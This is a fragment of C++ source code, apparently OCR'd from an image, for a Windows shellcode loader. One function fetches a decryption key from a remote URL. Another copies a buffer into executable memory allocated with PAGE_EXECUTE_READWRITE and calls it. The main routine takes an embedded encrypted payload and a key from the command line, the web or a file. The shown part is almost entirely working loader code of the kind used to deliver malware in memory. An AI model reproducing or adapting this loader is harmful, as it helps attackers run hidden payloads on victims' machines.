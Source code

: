 ```cpp
    }
}

std::string getWebKey(const std::string& url) {
    HINTERNET hInternet = InternetOpen(L"MyUserAgent", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (!hInternet) {
        std::cerr << "Failed to open internet connection (code: " << GetLastError() << ")" << std::endl;
        return "";
    }

    HINTERNET hConnect = InternetOpenUrlA(hInternet, url.c_str(), NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (!hConnect) {
        std::cerr << "Failed to open URL (code: " << GetLastError() << ")" << std::endl;
        InternetCloseHandle(hInternet);
        return "";
    }

    char buffer[1024];
    DWORD bytesRead;
    std::string result;

    while (InternetReadFile(hConnect, buffer, sizeof(buffer), &bytesRead) && bytesRead != 0) {
        result.append(buffer, bytesRead);
    }

    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);

    return result;
}

void executeBuffer(unsigned char* buffer, size_t size) {
    void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (execMem == NULL) {
        std::cerr << "Failed to allocate memory for execution (code: " << GetLastError() << ")" << std::endl;
        return;
    }

    memcpy(execMem, buffer, size);

    // Cast to function and execute
    auto shellcodeFunc = (void(*)())execMem;
    shellcodeFunc();
}

int main(int argc, char* argv[]) {
    std::string key = flibbertygibbert;
    unsigned char* buffer = encryptedBuffer;
    size_t bufferSize = sizeof(encryptedBuffer);

    for (int i = 1; i < argc; ++i) {
        std::string arg = argv[i];

        if ((arg == "-k" || arg == "--key") && i + 1 < argc) {
            key = argv[++i];
        } else if ((arg == "-w" || arg == "--web-key") && i + 1 < argc) {
            key = getWebKey(argv[++i]);
        } else if ((arg == "-f" || arg == "--file") && i + 1 < argc) {
            std::ifstream file(argv[++i], std::ios::binary);
            if (file) {
```